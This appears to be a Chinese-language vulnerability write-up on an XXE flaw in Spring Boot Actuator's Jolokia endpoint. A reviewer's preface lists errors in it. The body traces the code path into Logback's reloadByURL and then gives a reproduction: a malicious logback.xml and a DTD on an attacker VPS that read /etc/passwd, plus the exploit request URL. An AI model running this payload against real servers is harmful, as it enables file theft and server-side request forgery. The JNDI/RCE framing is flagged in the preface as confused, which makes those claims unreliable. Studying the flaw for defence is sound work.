## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：仅Boot2.x却使用JolokiaMvcEndpoint旧类名，需锁Boot/Jolokia/Logback/XML解析器版本

代码与实验材料：JMX调用转换到reloadByURL再SAX解析叙述详细；实际DTD是报错回显XXE而非JNDI；代码属性/图归属待核

来源证据范围：先知4258、JF原文，较好但未给官方修复

- **结论使用边界（1）**：根因和链术语混淆；依据：!/是Jolokia路径转义不是Boot /!漏洞；第一步说填JNDI但给DTD；XXE不是JNDI必要前置。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：图片引用跨文章污染；依据：多个图来自rce目录，一张ExecHandler图指Thymeleaf目录；资源存在不能证明图正确。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **操作与副作用边界（3）**：版本与副作用缺失；依据：Logback配置reload可重置日志；安全解析取决依赖版本，不是所有Boot2.x无防护。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

一、漏洞简介
------------

Spring boot 会把 **/!** 解析成
*/*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。***前提条件*****查看jolokia/list中存在的 Mbeans，是否存在logback
库提供的reloadByURL方法**

    https://www.0-sec.org:9090/jolokia/list



二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**-\>**Jolokia**-\>**Logback**-\>**JNDI**-\>**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下



只要是 **/jolokia** 为第一个 **path**
节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler\#handleGetRequest**
里

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2**
这样能够保留 **/** 符号，后边用得到可以根据 **path** 节点新建 **JmxRequest** 对象大致如下图所示，有这么些类别可以指定

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest
类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest
的构造函数，如下所示



跟进 initObjectName 函数，如下



如上图，这里将 exec 后面的第一个 path 节点带进了
javax.management.ObjectName 构造函数中

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个
ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation
属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入
org.jolokia.http.HttpRequestHandler\#executeRequest
执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个
org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中



如上图，就是将 JmxExecRequst 中的 operation
做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments
转换成对应类型，最后执行 server.invoke
的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过
`/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator
就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：



首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个
reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数



如上图，它的参数是一个 URL 类型的，我们传入进去只能是
String，但是不用方，ExecHandler 的 doHandRequest
当中会对目标函数的参数类型做适配，将 String 转换成 URL 。但是这里有个问题，因为需要指定 schema ，所以必须有类似 http://
这样的开头，而我们的 path 进去以后，会用 /
切割分组的，所以就需要用到前面的流程中对 uri
的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的跟进函数如下：

继续跟进上图中的红色方框如下



如上图所示，在调用 recordEvents
的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml
文件， xml 解析的过程就是发生在 recordEvents
的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下
recordEvents 执行过程，如下



很简单，build 完成后直接 parse，那我们查看一下 build
的时候是否有做防护，如下



什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢不方，我们查一查 logback insertFormJNDI 标签啥



其中的 env-entry-name 就是指向 jndi
的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi
触发 java 反序列化，最终导致 RCE

### 漏洞复现

-   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

<!-- -->

    <?xml version="1.0" encoding="utf-8" ?>
    <!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
    <a>&trick;</a>

-   在VPS上创建ian.dtd

<!-- -->

    <!ENTITY % d SYSTEM "file:///etc/passwd">
    <!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">



-   开启http服务

<!-- -->

    python -m SimpleHTTPServer 80

-   远程访问logback.xml文件

<!-- -->

    https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml



-   可以看到服务器上也返回了响应日志    {width="5.833333333333333in"
    height="0.3951881014873141in"}

参考链接
--------

> https://xz.aliyun.com/t/4258
>
> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
